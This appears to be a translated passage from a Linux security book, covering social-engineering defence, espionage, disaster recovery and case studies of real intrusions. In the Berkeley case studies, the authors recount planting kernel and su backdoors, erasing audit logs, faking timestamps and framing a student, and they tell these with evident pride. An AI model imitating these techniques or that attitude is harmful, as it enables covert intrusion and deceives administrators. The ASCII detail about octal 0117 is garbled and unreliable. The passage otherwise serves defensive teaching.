策略应包含一份声明，指出该策略在最初创建并获批时、更新时，应书面分发给每个可能的计算机用户，以及每位新用户。它应声明这是“公司（或机构）政策”，遵守是强制性的，不遵守可能导致解雇。列出针对各种违规行为的常规处罚也是个好主意，以便后续执行处罚时具有合法性。列出对首次严重违规行为进行“轻描淡写”的处罚，无异于邀请人们“不断尝试蒙混过关，直到被抓”。

你还必须确保这些处罚的执行没有差异，以符合反歧视法等法律法规。策略的这一部分肯定需要人力资源、法律和工会联络人的批准，以确保其合规性。一个很好的想法是向每位用户提供两份策略副本，要求每位用户在获得账户之前签署其中一份并交还给你或人力资源部门。这种“通知证明”允许公司在策略被违反时采取严厉措施。

# 附录 B

## 案例研究

## 狡猾的入侵

这里讨论的是狡猾的入侵。如果你的实体规模较大，例如大公司或政府机构，你就应当对此感到担忧。本附录涵盖的主题包括：

- 第 545 页的“《碟中谍》式技巧”
- 第 548 页的“间谍”
- 第 549 页的“狂热分子与自杀式袭击”

### B.1 《碟中谍》式技巧

危险等级 ☠ ☠ ☠

一些年纪稍大的人会记得旧版《碟中谍》电视剧，剧中美国政府特工以巧妙的方式破坏他人的行动、捕获某人或某物，或获取秘密信息。通常，这是通过伪装完成的，有时冒充电话公司或燃气公司的维修人员。有时则是通过诱惑完成。场所需要防范贿赂和敲诈。这些攻击被称为*社会工程学*。

如果你负责一个中大型站点（甚至小型站点），你需要对此有所担忧。我指的不是某个青少年或毒瘾者希望倒卖你的电脑。相反，我指的是专业人士，他们要么获取你的数据，要么破坏你的运营。如果有人声称来自电话公司来“安装新线路”，请询问谁下达了订单，并要求提供细节，例如什么类型的线路和什么电话号码。与他声称的订单下达者核实他的说法；对模糊的回答保持怀疑。请记住，任何人都可以拨打你们机构的主号码，询问负责电信的人员姓名，然后将该姓名告诉你。

所有信息和物理访问权限都应基于“需知”原则，声称来自供应商或其他机构的人员在获得访问权限之前必须证明其身份，并且他们应受到监督。如果徽章或身份证件“落在车里”或“忘带了”，请让他带着证件回来。任何人花大约 150 美元就可以买到一套伪造的公用事业或警察制服；在我们上次的万圣节派会上，有人穿着警察服装出现，逼真到被误认为是响应投诉的真实警官。专业人士会持有逼真的但伪造的身份证件；使用可靠的电话号码致电该公司可以识破除了最坚定的特工以外的所有人。你还需要在电话簿中查找她声称所属公司的电话号码（或电话公司），拨打该号码，确认是否有人被派来，并询问订单号，查看该人员是否有带有相同订单号的文件。要求查看公司照片证件，并通过电话核实姓名是否匹配。

对那些在你们机构的合适人员未邀请的情况下出现的人特别保持警惕。据我回忆在《碟中谍》中，以及在某部《辣手神探》电影中，入侵者驾驶着一辆燃气公司卡车出现，声称要紧急修复燃气泄漏，态度紧迫。一个人花大约 10 美元买一个丙烷火炬，释放气体模拟燃气泄漏的味道。除非一队消防车和警车出现，否则请花时间致电公司，在授予任何访问权限之前务必让人仔细监视他。

今天早上，在写这本书时，我余光看到后院有个人走向前院。当我看向他时，他二十多岁，穿着服务人员典型的灰色制服，拿着一段看起来像三英尺长的白色管道。我昨晚刚写完这一章，所以细节还历历在目。

我隔着距离在前院拦截了他，问他为什么在我的地盘上。（我原本以为他是测量员，因为我看不到别人会在我的后院做什么。）他说他在读我的电表。


这让我起了疑心，因为虽然电表在那一侧，但离他在的后院很远的地方，而且因为“那里”有一片大的林区，我不认为他会从另一栋房子“抄近路”过来。他走向我邻居家然后消失了。当我在路上寻找标有 Georgia Power 字样的卡车时，我没有看到。我立刻考虑拨打 911 或电力公司的紧急号码。相反，我选择沿着路走去试图找到他和他的卡车。

我不推荐这种做法，因为你会被打死。在散步过程中，我发现了他明确标记的卡车，他向我打了个招呼后跳了进去，并沿着另一条路开去，我看到他下车检查别人的电表。尽管如此，在散步确认他的说法之前，拨打 911 也是适当的，警方宁愿看到这种情况，也不愿发现一个死在路上的前 Linux 系统管理员。

请记住，大型机构和公司的供应商几乎每天都会来联系，任何“碟中谍”式的特工都可能打电话给常见供应商，声称来自你的机构，并询问他们何时派人来。他们甚至可能下假订单并派来一个假人。这就是为什么验证某人是否是被期待的，并与订单上名字相符的公司人员确认非常重要。

在 2000 年 2 月 11 日发表于 *PC World* 网站（由路透社拥有版权）的一篇文章中，一位在 IBM 咨询 *Tiger team* 工作的人说，他最喜欢的技巧是抓起一顶安全帽，从通信柜上撕下电话公司的贴纸并贴到笔记本上，带上一些工具，他就可以进入几乎任何地方。可以在二手电子件邮购网站和 Radio Shack 购买到电话公司样式的“测试电话”。

你所有的安保人员和清洁团队都应被告知，在面临解雇的处罚下，绝对不得让任何人在没有适当身份证明的情况下进入。即使是“我把钥匙落在办公桌上”的借口也不应被接受，除非该人员可能在 10 分钟前就在那张办公桌旁。

> 有一次，在一千名员工的公司的内部走廊里，我在**午夜**左右推着装满计算机设备和笔记本电脑的手推车走到前门。我解释说我要把设备带回家，并“获得了许可”。保安从未见过我，没有要求我出示任何文件就同意了。在我已经把一些设备移到我的汽车后，他说：“呃，我想我应该看看你的驾照并记下详细信息。”

我愉快地提供了，但任何 20 岁的年轻人都可以告诉你如何伪造驾照。他甚至麻烦做了安保日志记录这件事吗？我不知道。

永远不要低估贿赂和敲诈（勒索）的力量。美国政府要求对任何将被允许接触机密材料的人进行广泛的背景调查。在授予高度机密材料访问权限之前，联邦调查局（FBI）或军事情报机构会采访那些与该人相识几十年的许多人，通过 FBI 的犯罪记录计算机核对她的指纹和姓名，从而核实她是否有犯罪记录，是否有不诚实的证据，以及是否有可用于敲诈的秘密。即使某人拥有不违法的秘密，例如性方面的，如果它可以被用作勒索，那么此人可能会被拒绝获得许可。在这种情况下，此人可能会被给予选择，要么公开这个秘密，要么被拒绝许可。

花费一两千元请私家侦探调查你重要的人物，并获取信用报告，可以消除大多数容易受到贿赂和敲诈的人。有些机构和公司会使用测谎仪测试。（当然，你会希望与你的人事或法务人员合作，以确保你不违反适用法律。）

确保有物理安全。通常通信线路和以太网电缆对任何想要窃听的人都暴露。美国政府的安全法规要求通过非机密区域传输机密数据的电缆被包裹在钢管中，所有管道接头都应点焊在一起，并每周检查管道是否有篡改痕迹。

这些法规还要求用钢条或其他批准的方法阻挡地板下、天花板上方（特别是吊顶）以及通过通风管道的访问。这些钢条也必须每周检查。我想政府人员也看间谍电影，其中间谍爬过通风管道。

## B.2 间谍

**危险等级 ☠☠**

真正的间谍不像詹姆斯·邦德。相反，他们是安静、谦逊、极具耐心和智力的类型，以此为生。到你读到这里时，澳大利亚、英国，甚至可能还有美国的政府可能已经拥有合法权利尝试进入你的计算机并翻找数据，甚至可能拥有合法权利禁用你实施的任何加密或其他安全保护，以便更容易地窃听你的数据。

不幸的是，这对大多数不是间谍且未涉及犯罪组织的系统管理员来说*确实*是个担忧。假设你是一家合法的运输公司。如果政府怀疑某人可能试图通过你的公司运输一箱非法计算机，他们可能希望能够追踪货物，从而侵入你的计算机。他们甚至可能不需要法院命令，也绝对不需要告诉你*你*。

如果他们随后禁用你的一些安全设置以使追踪该货物更容易，这将危及你的无关数据。当然，政府不会因某人利用这种政府导致的安全漏洞而对你的损失进行赔偿。这是警惕并防范此事的一个原因。

### B.2.1 工业间谍


许多系统管理员对工业间谍的担忧不够。这些是你的竞争对手试图获取你的客户列表、未来的营销计划以及你新产品的想法和设计。虽然这可能得到了竞争对手的高层批准，但更可能的是某个工程师，可能应经理的要求，擅自行动。他可能不会向他的上级管理层透露他是如何获取信息的。

根据美国联邦调查局亚特兰大分局，相当大比例的计算机入侵是由于工业间谍活动。根据美国陆军红石兵工厂的安全专家，即使是获取美国国防秘密的入侵中也有相当大比例是为了让其他公司在竞标美国国防合同中获得竞争优势。

## B.3 狂热分子和自杀式袭击


过去，面临狂热分子袭击风险的场所仅限于国家政府和国防工业。随着美国和其他地方极端主义的兴起，许多其他场所现在也面临风险。在美国，涉及对动物（而非人类）进行产品安全测试的组织，那些不被认为是“环保”的组织，那些涉及核能的组织，以及那些有劳工纠纷的组织似乎面临最大的风险（除了政府国防和政策相关的“传统”风险）。这些场所中的许多都是科学实验室和大学系统。

加州大学伯克利分校是我所知道的唯一拥有自己炸弹处理小组的大学的警察局。我曾在某个晚上亲眼目睹了它的行动，包括一个巨大的钢制炸弹容纳装置。在 20 世纪 60 年代，我上加州历史课的讲堂曾被燃烧弹袭击并遭受重大损坏。我居住的合作公寓之一在 20 世纪 60 年代被国民警卫队使用催泪瓦斯，而另一处则有一个 LSD 工厂。我在 20 世纪 70 年代末在那里学习时，我记得美国银行伯克利分行被炸了两次。

我在第一版中写了上一段关于主要大学恐怖主义的内容，但在审查过程中因被认为无关而被删除。不幸的是，2001 年 9 月 11 日在纽约市的大规模袭击，以色列几乎每天发生的致命自杀式爆炸，以及印度和巴基斯坦逼近核战争的边缘，都证明了相反的情况。除了造成无法想象的人类苦难外，9/11 袭击还导致美国东部及以外地区的通信发生重大中断。它还摧毁了许多组织唯一的数据副本和数据中心，并使美国最大的股票交易所停摆一周。

作为系统管理员，如果数据中心被摧毁且关键人员被杀，拥有可靠的异地备份和恢复计划至关重要。恐怖主义在全世界范围内都在增加，没有这样的计划，许多组织将无法恢复。即使是火灾、飓风、龙卷风或地震等自然灾害，如果备份仅存储在几英里外，也很容易摧毁所有这些东西和备份。多年来，我一直在将关键数据安全地复制到数百英里外的另一台计算机。在异地备份站点，你应该提供足够的文档以从最初重建数据中心而不需要关键人员，并存储最近的数据副本。这些信息应包括如何联系供应商。与一家公司签订合同以维护备份数据中心——偶尔进行演练——或与供应商签订合同以提供“紧急情况”下的设备，对于成功恢复至关重要。

## 案例研究

本部分详细探讨了一些成功入侵的案例研究，以帮助你理解它们是如何进展的以及典型的反应。评论提供了系统管理员如何可以更好地处理问题，或事情是如何处理得好的。希望你会发现这些也很有趣。本附录部分涵盖的主题包括：

- 第 551 页的“伯克利系统内鬼的供认”

- 第 554 页的“王国骑士（取证）”

- 第 556 页的“肯·汤普森破解海军”

- 第 557 页的“虚拟机特洛伊木马”

- 第 558 页的“AOL 的 DNS 变更闹剧”

- 第 560 页的“我是无辜的，我告诉你！”

- 第 561 页的“用笔记本电脑和付费电话破解”

- 第 562 页的“从顶部拿走几分钱”

- 第 562 页的“非营利组织运气用尽”

- 第 564 页的“对固执的系统管理员的坚持会有回报”

- 第 565 页的“.Net 随 Ninda 发布”

## B.4 伯克利系统“鼹鼠”的忏悔

这些忏悔基于一篇由道格·默里特（Doug Merritt）、肯·阿诺德（Ken Arnold）和我共同撰写的文章，该文章发表于1985年1月号的《*UNIX Review*》杂志。尽管这是关于20世纪70年代末期活动的记述，但其中仍有许多值得借鉴的经验教训，其中一些在缩进的*斜体*文本中有所提及。

> 这个案例研究展示了典型的系统管理员错误和黑客（cracker）技术。即使杰夫·施赖布曼（Jeff Schriebmann）和比尔·乔伊（Bill Joy）也无法挫败我们对加州大学伯克利分校 UNIX 系统非常成功的“灰帽”攻击。

我们是天真的黑客，当时没有阅读过任何前人的黑客攻击案例，然而我们却在系统中停留了超过一年！最终，他们只用三年时间就将我们清除出去，仅仅因为我们要完成学业，并开始通过在西海岸山谷编写代码来谋生。


# 伯克利特洛伊木马事件

当我们闯入伯克利的主 UNIX 系统（这是世界上第一个 PDP 11/70 UNIX 系统，肯·汤普森本人将 UNIX 移植到了该系统上）时，我的一个创新举措是在内核中植入了一匹特洛伊木马。如果在调用 `setuid()` 系统调用之前，有人在特定寄存器中加载八进制值 0117，那么有效 UID 将被更改为 0，该用户立即变成 root（超级用户）！017 是大写字母“S”的 ASCII 码；当然是指 Superuser（超级用户）。这只需要在内核代码中大约 50,000 行代码中没有人会寻找内核修改的位置，写几行代码即可实现。

道格·默里特的一个创新举措是创建一个修改版的 shell，该 shell 包含一条激活这匹特洛伊木马的命令。用户因此变成 root，并且可以肆无忌惮地修改系统。然后，该用户执行另一条特殊命令，有效 UID 将恢复为正常值。因此，如果系统管理员执行 `ps` 命令，他们不会看到任何异常，除非他们足够幸运，恰好在这个短暂的窗口期内执行了 `ps`。他们从未如此幸运！

其中一位系统管理员，大卫·莫泽（David Moser），确信系统中有黑客。他让我们想起了《M.A.S.H.》中的弗兰克·伯恩斯（Frank Burns）角色检查牙膏中是否有爆炸物的情景。大卫决定打印出整个 UNIX 内核代码，并逐行阅读以查找特洛伊木马。没错！他确实发现了这一个，并一直念叨着八进制 117。我真的很想说，“嘿，大卫，这是 ASCII 码，大写字母‘S’代表超级用户（Superuser）”，但我克制住了这种诱惑。

我们主要对科里大厅（Cory Hall）中电气与计算机工程系（EECS）的 PDP 11/70 感兴趣，因为那是伯克利的原始 UNIX 站点，并且继续成为 UNIX 开发的中心。不过，我们也“收集”了校园内所有的其他 UNIX 系统。我们“地下组织”运作方式的一个独特方面是，我们很少知道我们已获得超级用户权限的系统 root 密码。这是因为比起猜测 root 密码，有更简单的方法进入系统并保持在系统中。例如，我们篡改了 `su` 程序，使得当我们输入我们自己的秘密密码时，系统也会让某人变成超级用户，而不仅是输入通常的 root 密码时（我们对通常的 root 密码一无所知）。

> 在早期，一位系统管理员会将新的 root 密码邮寄给该系统上的所有其他系统管理员，显然他们没有意识到我们正在监控他们的邮件，寻找正是这种类型的安全漏洞。

这是他们未能分析形势的典型例子。问问自己，“为什么需要更改密码？”唯一的合理理由是“它可能被泄露了”。好吧，如果它被泄露了，那么该账户绝对不应该被信任来发送新密码。

基于同样的推理，如果系统管理员无法在短时间内收到真正用户无法登录的通知，密码老化（password aging）可能会无效。这种情况通常发生在很少登录系统的用户身上。这是因为入侵者已经更改了密码，因为密码老化要求这样做才能继续访问。

遗憾的是，他们很快猜到了这是一种不好的做法，我们不得不回到作为无密码超级用户的状态，有时这可能会带来一些不便。

在一个深夜，我在科里大厅的 UNIX 系统上，利用我不合法的超级用户权限浏览受保护但有趣的部分时，我偶然注意到一个名为 `/usr/adm/su` 的可疑文件。这很可疑，因为在管理目录 `/usr/adm` 中几乎从不出现新文件。

当我看到文件名时已经感到怀疑，但当我看到它包含了自前一天以来所有以超级用户身份工作的人执行的所有命令的完整记录时，我半瘫痪了。当我发现文件末尾记录了我当前偷偷摸摸的会话中执行的所有命令，直到且包括阅读这个令人沮丧的文件时，我处于彻底的震惊状态。

我花了大约 10 分钟充满恐慌的担忧，才意识到我可以编辑该记录并删除所有关于我不当命令的引用。我立即登出并警告了小组的其他所有成员。由于从未出现不当行为，系统管理员被安抚到了一种虚假的安全感中。他们的策略对我们来说运作得非常好，让我们在下一组陷阱布置之前能够平静工作相当一段时间。

我发现的下一个潜在陷阱是 `/usr/adm` 中的另一个名为 `password` 的新文件，该文件跟踪所有作为 root 登录失败或 `su` 到 root 失败的尝试，以及尝试中使用的密码。由于我们几个月来都不知道 root 密码，因此我们不会通过像以 root 身份登录这样明显的方式成为超级用户，所以这对我们来说并不是特别具有威胁性，但非常有趣。在我们监控该文件的前几天，它显示的是合法的系统管理员因各种错误而做出的尝试。

其中一人曾输入一个密码，我们通过反复尝试发现这是另一个系统上的 root 密码。其中几人输入的密码似乎是之前的 root 密码。大多数人则是正确 root 密码的拼写错误。不用说，这是一个相当明显的提示，我们花了不到五分钟就确定正确的拼写是什么。

你可能认为，既然我们有几种成为超级用户的方法，是否知道实际的 root 密码并不重要。问题在于，我们的方法只有在系统没有发生剧烈变化时才有效；他们赢得一场战斗的通常方式是恢复整个系统并从磁带重新编译所有实用工具。

这有时会让我们倒退几周，因为它撤除了我们进入超级用户状态的所有“后门”，迫使我们从零开始再次入侵系统。但一旦我们知道 root 密码，我们就总能将其作为一个起点。

> 提示：当你对系统进行重大升级，或组件（如 Apache、CGI 或替换了可能含有特洛伊木马程序的数据库）时，请更改 root（或受影响账户）的密码，因为入侵者可能知道现有的密码。

> 如果伯克利的系统管理员曾想到这样做，他们至少会在一段时间内将对手赶出去。

我们隐藏踪迹的最爱技巧之一是，当我们修改标准实用工具时使用 `idddlel` 程序，该程序允许我们将修改过的文件的最后修改时间重置为一年前，使其看起来自那以来从未被修改过。

> 在处理复杂攻击时，不要信任时间戳。

查克·哈利（Chuck Haley）曾致信杰夫·施赖布曼（Jeff Scriebman），评论说他甚至“发现了读卡器程序”也有被篡改的迹象。

> 怀疑任何具有 set-UID 权限或可能由 root 调用的程序中存在特洛伊木马。

这种战斗持续了几年。虽然我们中的大多数人在某个时候都会受到他们的怀疑，但没有人被当场抓获。无疑，我们从未进行任何恶意行为有所帮助。我们或许僭越了权限，但我们始终增强了系统的功能。我们从未干扰系统的正常运行，也未损坏任何用户的文件。我们认识到，绝对的权力未必导致绝对的腐败；相反，它教会了我们克制。

据报道，一名入侵者长期保留了 eBay.com 的 root（根用户）访问权限，但由于其行为不够恶劣，不值得花费精力将其移除。在报告发布时，该入侵者仍被怀疑正在控制该系统。

如果入侵者没有做出足以让耗时全面的系统分析变得正当的恶意行为，大型系统可能会在很长时间内被入侵者“攻陷”（owned）。像 `Tripwire` 这样的工具可以大大简化这种分析工作。

这也许就是为什么我们最终被接纳为系统工作人员（system staff）的原因，尽管到那时我们中已有几人承认了自己的不正当行为。一旦我们获得了修改和增强 UNIX 的权限，我们就失去了破解系统安全的所有动机。当时我们并未意识到，这种做法长期以来一直被认为是处理安全问题最有效的方法之一：招募这些违规者，这样就不再是“我们”与“他们”的对立，而 simply 是“我们”（整体）。

## B.5 王国骑士（取证）

我在一月假日后进入客户办公室，刚一开始读电子邮件并啜饮咖啡，网络管理员们就带着忧虑的神情来到我狭小的办公空间。“我们的部分系统在假期期间被入侵了，我们怀疑你的系统可能就是其中之一。他们利用了 `mountd` 中的一个漏洞，而 Red Hat 5.1 系统对此毫无防备。你的系统是 5.1 版本，对吧？”

“是的，”我叹了口气。果然，日志文件中存在着入侵的典型迹象。现在，清理我系统的痛苦工作必须开始了。值得注意的是，这是一个相对较新且未知的漏洞，CERT 在不到三个月前才报告过它。我曾认为，一个小型且不知名工作站遭受如此新且未知的漏洞攻击是异常罕见的。

当然，当时我正全心投入一个开发项目，安全并未是我首要考虑的事项。我不定期查看安全邮件列表，而是依赖口碑来提醒我潜在的问题。

> 参见第 21 页的“七大致命罪”。这是第 7 罪：拖延。

通常我不运行 `mountd` 和 `NFS`，因为我知道它们存在安全隐患，而且我本来也不需要它们。我正在开发的服务器配置了 `NFS` 以及其他许多功能，因此我不小心地让它一直运行着。显然，我应该在需要时才操作它，以减少脆弱窗口。

> *参见第 92 页的“关闭 NFS、mountd 和 portmap”。至少没有阻止互联网访问 NFS、mountd 和 portmap 是不负责任的。当然，在这匹马，我是说，入侵发生后的第一件事，这三项措施都应该立即执行。*

> *这是我使用 UNIX 和 Linux 的四分之一个世纪（哎呀）以来，我管理的系统首次被破解。这可能不是最后一次。虽然利用的是以 root 身份运行的程序中的一个 bug，但也需要我犯错误才行。*

幸运的是，我习惯于每隔几周进行一次磁带备份，并且将服务器项目的源代码更改保存在另一台系统的 CVS 中。幸运的是，GNU `tar`（以及我自己高度定制的 UNIX `tar` 分支）有一个特性，可以比较磁盘内容与磁带内容。典型的调用方式如下：

```bash
tar -df /dev/rmt0 /
```


典型的输出可能包含以下内容。除非包含“v”修饰符，否则磁盘和磁带上完全相同的文件不会被列出。

```text
/bin/date: Mode differs
/bin/ls: Uid differs
/bin/ls: Data differs
/bin/su: Mod time differs
/bin/su: Size differs
/dev/hdb7: Device numbers changed
/dev/null: Device numbers changed
/dev/tty: Mode or device-type changed
/lib/libc.so.6: Symlink differs
```

如图所示，GNU `tar` 可以检测文件的任何变更，包括内容、修改时间（磁带上存储的唯一时间戳）、权限位、文件类型、UID 或 GID。不幸的是，GNU `tar` 不会告诉你项目（UID、内容等）是*如何*变化的，这要求你执行 `ls` 命令、从磁带中提取文件并对部分文件运行 `diff` 命令，通常会耗费大量时间。

建议修改 GNU `tar`——开源是美妙的——使得第二个“v”选项可以列出 inode 数据（UID、GID、时间、权限、类型）的差异（并且在未提供第三个“v”的情况下禁用相同文件的列出）。一个 `-e` 扩展功能可以让有差异的文件从磁带中提取，并在文件名后附加该扩展名（如果该文件在磁盘上也存在，则重复附加）。更多细节，请参见第 491 页的“查找被破解者修改的文件”。

那么破解者对系统做了什么？他们运行了一个 IRC 'bot，在 `.mh` 下留下了一些之前不存在的文件，并在 `/tmp` 下也留下了痕迹，但系统本身未受损坏。

## B.6 Ken Thompson 破解海军

美国海军在加利福尼亚州风景优美的蒙特雷设有一所研究生学校。他们不仅仅是一群海滩闲散人员。那里正在进行严肃的研究，包括计算机科学方面的一项领域。其中一个研究领域是计算机安全，他们花费了大量时间修改 UNIX 以使其更加安全。自然，军方非常关注安全，这些人也很精明。当他们准备好时，他们联系了 UNIX 的联合发明者 Ken Thompson，并自豪地邀请他尝试入侵。他接受了邀请。几周后，Ken 演示了他已经以 root 身份“进入”了系统。请设身处地站在水手们的角度，想想可能的漏洞利用类型。

> Ken 所做的修改 C 编译器，使其能够识别登录程序源代码中的特定代码模式。然后他发送了一盘包含此特洛伊木马的“更新磁带”，并等待海军重新编译系统。从 Bell Labs 接收更新磁带是常规操作，定期重新编译系统也是如此。

虽然我不确定，他们可能已经研究过更新磁带上的源代码，甚至可能对它运行了 `diff` 命令。编译器代码以复杂著称，他们可能无法察觉该更改不仅仅是一个 bug 修复。在某个时间点，Ken 变得更加狡猾。虽然编译专家可能发现这个问题，但请考虑他接下来的演示。

回想一下，Ken 修改 C 编译器以故意错误编译 `login` 程序，从而植入特洛伊木马。然后他向 C 编译器添加了第二个特洛伊木马，即使源代码不包含这两个特洛伊木马，这个新特洛伊木马也会将第一个和这个新的第二个特洛伊木马添加到编译后的 C 编译器二进制文件中。因此，在这个第二版 C 编译器构建之后，可以从 C 编译器的源代码中移除这两个特洛伊木马。现在，尽管 C 编译器（和 `login`）的源代码中不含特洛伊木马，所有后续的 C 编译器版本都将包含这个特洛伊木马。

检测这个特洛伊木马的唯一方法是反汇编编译好的 C 编译器并在二进制文件中找到特洛伊木马，这是一项几乎不可能完成的任务。Ken 在他著名的 ACM 图灵奖演讲“反思信任信任”中讨论了此漏洞利用。¹

1. *Communication of the ACM*, Vol. 27, No. 8, August 1984, pp. 761–763. ACM 是计算机协会（Association for Computing Machinery）。该演讲的副本可以从 *www.acm.org/classics/sep95* 阅读。

*漏洞利用的源代码与其影响目标之间的“间接”层级越多，检测就越困难，因为你会思考，“这种更改如何影响安全？” 编译器、加载器和微代码中的漏洞利用几乎不可能被检测。显然，间接的漏洞利用设计起来也难得多。*

*检测或防止此漏洞利用的唯一现实方法是从受信任的供应商处获取系统，并寄希望于他们谨慎地确保没有允许特洛伊木马进入。当然，任何人都可以直接从自由软件基金会获取 GNU C 编译器。*

## B.7 虚拟机特洛伊木马

Doug Merritt 和我意识到，如果我们在 UNIX 源代码中添加特洛伊木马，几个月内就会被发现。此外，我们意识到，如果我们修改源代码副本以包含特洛伊木马，安装生成的二进制文件，然后移除被修改的源代码副本，最终系统会被重新编译，这些特洛伊木马也会丢失。经过大量分析，我们提出了虚拟机特洛伊木马的想法。我们受到 IBM 在 370 系列上开创此技术启发。我们将编写我们自己的 PDP 11/70 模拟器，使 UNIX 内核作为*用户*进程运行。

> 虚拟机（VM）背后的理念是，在最底层，计算机硬件会被模拟。“客户操作系统”会认为它正在实际硬件上运行，但某些操作会被模拟。VM 的运行速度可以几乎与原生硬件相同，因为绝大多数非特权指令会在原生硬件上直接运行。当运行 VM 时遇到特权指令，硬件中断会陷入“真实”操作系统并触发模拟。

硬件手册被取了出来，设计开始了。然后就是我们的下巴撞地的声音。我们的漏洞利用被命运的一个残酷转折摧毁了。Digital 的某位工程师必须决定当硬件运行在非特权（用户）模式下遇到特权指令时该怎么办。为了使我们的计划有效，这种情况需要被视为错误，从而陷入系统空间。

唉，在 PDP 11/70 上，这种情况只会导致指令被忽略。为了实现我们的计划，我们必须模拟*每一条*指令。这会将系统速度降低约五倍。由于系统当时已经满载运行，这种新的缓慢将被调查，并发现原因。

*这种漏洞在某些现在运行 Linux 的硬件上肯定存在。此外，由于 Linux 非常高效，大多数 Linux 系统都有大量的空闲 CPU 周期，可以利用这些周期来模拟每条指令，而不会造成显著的性能下降。*

*当时我们没有意识到这个问题有一个简单的解决方案，大多数调试器都使用这种方法。当我们的虚拟机准备运行 UNIX 内核时，在内核加载到内存后，只需扫描内核映像中的特权指令，并将这些指令替换为生成对我们“真实”操作系统陷入请求的指令。然后我们可以模拟这少数几条特权指令，同时让非特权指令在原生硬件上以高速运行。*

*即使将你的文件与其应有的状态进行比较，也无法检测出这种漏洞，因为虚拟机可能会修改 Linux 文件系统的行为以隐藏自身，并使它看起来像是 Linux 内核从引导扇区启动的。定期从头开始完全重新安装可以消除这种木马。另一种更节省时间的解决方案是定期从可信的软盘或 CD-RW 介质启动，将安装的内核与已知良好版本进行比较，然后将所有特权程序和配置文件与已知良好版本进行比较。重要的是要验证程序和配置文件是否已被修改以包含木马，因为即使安装的内核是合法的，任何以 root 身份运行的程序都可能在启动后安装木马。*

### B.8 AOL 的 DNS 变更灾难

突然间，AOL 的客服中心开始收到用户投诉，说他们没收到电子邮件。毫无疑问，最初的回应是“也许是发件人打错了你的地址”或者“网络一定很慢”。显然，随着电话量的增加，AOL 后来开始怀疑是网络问题。

我想知道，是不是某个非 AOL 站点敏锐的系统管理员在调查为什么他的用户的电子邮件没有到达收件人时想出了原因。不知何故，`.com` 的顶级 DNS 服务器指向了 `aol.com` 的错误 MX 地址。一家小公司接收了大量本应发送给互联网最繁忙站点之一的电子邮件！

有人只是要求当时的 .com 域名唯一注册商 Network Solutions, Inc. (NSI) 更新 AOL 的条目，NSI 照做了。这仍然是一个问题。

这有多难？NSI 为域名所有者提供了三种验证域名数据更新请求的方式：

- 1. 向 NSI 提供你的公钥 PGP 密钥，然后用你的私钥签署电子邮件。
- 2. 向 NSI 提供密码，只存储 DES 加密版本（更准确地称为单向哈希）。
- 3. 从注册在 NSI 的电子邮件地址发送请求。这是默认设置。这是一个非常糟糕的主意。

嗯，还有第四种方式。声称某人的域名侵犯你的商标权，即使它是一个通用的名称，你的法律主张非常可疑，如果你有强硬律师，NSI 可能会把域名给你。不幸的是，这是常见现象。（阅读你与 NSI 的合同。）

第五种方式是通过法院或现在的联合国提起诉讼。尽管*域名抢注*是一种可疑的行为，但美国商标法非常具体地规定，商标只保护该商标在特定行业的使用，而域名站点的通用名称通常不符合条件，除非其所有者在特定行业范围内使用它。

一家公司应该对一个常见的爱尔兰姓氏拥有权利要求吗？另一家十亿美元公司应该对 `theworldontime.com` 拥有权利要求，还是应该尝试从注册了该域名且可能在另一个行业长期使用该口号的公司那里购买它？

在第一种情况下，`mcdonalds.com` 被 Apache 的主要开发者之一无偿给了汉堡翻转者，作为交换，麦当劳资助了某个布鲁克林高中的一条 T1 线路，永远持续下去。这就是从事开源的人。


当你读到这篇文章时，联邦快递对一家小型医疗数据公司的诉讼可能仍在进行中，反诉骚扰也是。

是的，黑客从 AOL 向 NSI 伪造了电子邮件。阅读此文章的几乎每个人都容易受到这种攻击的影响。

一旦 AOL 发现问题，他们向 NSI 发送了另一个域名更新，每晚只向根 DNS 服务器上传一次数据。更糟糕的是，世界各地的数千台名称服务器会缓存这些数据几天甚至几周。糟糕的声誉可能会造成伤害。

AOL 在下一班飞往该站点的飞机上获得了更强大的计算机，并安排增加其带宽，以更好地支持大量电子邮件消息以及该站点预期的业务。幸运的是，在许多尝试向 AOL 用户发送电子邮件的站点上运行的 `sendmail` 将继续重试几天，直到邮件通过。

> *显而易见的教训是不要允许你的域名数据仅仅通过电子邮件地址就被黑客“保护”免于更新。对于绝大多数站点来说，这是一个定时炸弹。*

> *如果你发现自己处于这种境地，请立刻处理这个“马上要解决的问题”。*

### B.9 我是无辜的，我告诉你！

下面的案例研究涉及一位系统管理员，他没有意识到有两组独立且互不知情的黑客在运作。有时，当黑客说他只做了你怀疑他的部分事情时，他是在说真话。自从 Jeff “抓住了他的人”，我们就获得了一些喘息空间！

> 在大型系统中，可能有不止一个入侵者在独立操作。

Doug Merritt 讲述了这个故事，以下是他的话。<sup>2</sup> 我以*我自己*的身份登录，但正在运行一些隐蔽的 `set-UID` 程序，然后看到 Jeff Schreiberann 登录了，所以我 `ps` 了他的终端 ID。当我看到他在做什么时，我的心跳加速了——他在*我的*终端 ID 上运行 `ps`！

> Jeff Schreiberann 是加州大学伯克利分校电气工程和计算机科学系计算机的创新系统管理员。Jeff 对 Version 6 UNIX 做出了许多早期改进，以提高性能和安全性，使其更适合支持大量学生。

他立即给我写电子邮件，要求我去他的办公室。（我们都害怕 Jeff，而且是有充分理由的。他后来成功地让我们的同事 Michael 坐了一夜牢。）

我死定了，被抓现行——除了——

事实证明，当我登录时，密码提示和 shell 启动的时间让我产生了怀疑，结合在我登录前 30 秒有人从该终端退出的事实。（我一直在拥挤的房间里等待空闲终端。）

于是我环顾四周，很快发现一个“新手”大一新生在我登录前 1 秒登录了该终端——因此这是一个密码窃取器 [登录模拟器]。所以我启动了一个 `set-UID` 根 shell 进行进一步调查（这就是 Jeff 看到我在做的），就在我刚找到那个新手窃取的成功获取的数百个密码的文件时，Jeff 给我写了电子邮件。

思考迅速且狡猾地，我把 `root` 和 `root` 密码添加到了那个 [傻瓜] 的密码窃取器日志文件中。

所以，当我 60 秒后去 Jeff 的办公室时，我能够否认运行 `set-UID` 程序并声称对所有事情一无所知——除了我相当确定账户 XYZ 一直在运行密码窃取器，并且 Jeff 应该对此进行调查。Jeff 查看了，和我一样，立即发现了被盗的密码文件——现在包含 `root` 密码。“看到了吗？”我说，“这解释了一切。他注销后一直在后台运行一些 `root` 程序。”

所以我全身而退，新手惹上了大麻烦！当然，他活该。密码窃取器——多么业余。 :-)

几周后我与他简短交谈。他当然被吓住了，但让他对发生的事感到困惑的是很有趣。“我发誓我从未知道 `root` 密码！”呵呵。

### B.10 使用笔记本电脑和公用电话进行破解

